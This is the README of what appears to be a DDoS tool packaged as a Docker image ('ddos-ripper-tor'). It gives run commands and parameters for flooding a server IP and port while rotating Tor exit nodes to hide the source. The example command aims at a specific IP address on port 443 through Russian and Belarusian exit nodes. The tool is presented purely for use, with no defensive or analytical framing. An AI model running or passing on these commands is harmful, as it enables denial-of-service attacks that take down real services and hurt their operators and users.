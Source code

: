 # Requirements

## Install Docker

- [Windows](https://docs.docker.com/desktop/windows/install)
- [Linux](https://docs.docker.com/engine/install/ubuntu/)
- [Mac](https://docs.docker.com/desktop/mac/install)

# Usage

Basic usage

```
docker run --rm -it zengraf/ddos-ripper-tor -s [IP address]
```

## Parameters

- `-r <refresh>` - Tor IP refresh in seconds
- `-e <regions>` - Tor exit node regions separated by comma
- `-s <server>` - server IP address
- `-p <port>` - server port
- `-t <turbo>` - turbo

## Example

```bash
docker run --rm -it zengraf/ddos-ripper-tor -e ru,by -s 194.54.14.139 -p 443
```
